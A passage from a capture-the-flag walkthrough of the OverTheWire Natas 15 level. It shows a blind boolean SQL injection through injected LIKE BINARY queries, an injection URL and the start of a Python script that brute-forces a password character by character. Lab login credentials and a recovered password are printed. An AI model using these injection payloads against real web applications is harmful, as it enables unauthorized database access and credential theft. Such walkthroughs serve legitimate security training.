 Now run it and wait, it should not take more than a minute with the last switch set right, if you went for your own command syntax than be aware that it can take a lots of time as it is probably doing more testing.

The binary finally show us the table, there are actually more users, for a total of four, the last one is the one of interest and in the second column we also have it's password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

**Road 2**
This way is a bit more complex and require the knowledge of a scripting language like Python as we will need to create a script that will automate the process to get the password.
First of all we have to understand how is the script checking the database and the results we get, so we can than test it and try to write the script.

When we are submitting an username this is the SQL query being sent, in this scenario i put the name "natas16":
```sql
SELECT * from users where username="" LIKE BINARY "%natas16%"
```
This query, with "natas16" will return True and hence we get the message "This user exists".

Knowing this we can create a query that will check if a word is part of the password, this is particularly useful to speed up the process, otherwise we will have to try all the letters in the alphabet for a password of 32 characters, not super convenient.

They query looks like this:
```sql
SELECT * from users where username="natas16" and password LIKE BINARY "%a%"
```
This will return again a boolean value, causing the message "This user exist" or "This user doesn't exist." if the word is not part of the password.

We can verify that this is working injecting the code in the URL like this:
```php
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%a%&debug
```
And we are lucky we know know the word "a" exists.

Now is time to create a script that will automate this process, listing all the letters and numbers that are in the password, and than re ordering them to form the right combination.
```python
#!/bin/python  
  
# import the libraries that we need  
import requests  
from requests.auth import HTTPBasicAuth  
  
# Save the login information in variables  
username = "natas15"  
password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"  
url = "http://natas15.natas.labs.overthewire.org/index.php?debug"  
  
# Variables that will contain the possible chars and the final password  
chars_in_pswd = ''  
pswd = ''  
  
# login to natas15 challenge  
authentication = HTTPBasicAuth(username, password)  
print(requests.get(url, auth=authentication))  
  
# Saving all the possible chars in a variable for later use  
chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'  
  
# Loop to check the presence of each char  
for char in chars:  
    payload = {'username': 'natas16" and password LIKE BINARY "%' + char + '%" #'}  
    req = requests.post(url, auth=authentication, data=payload)  
```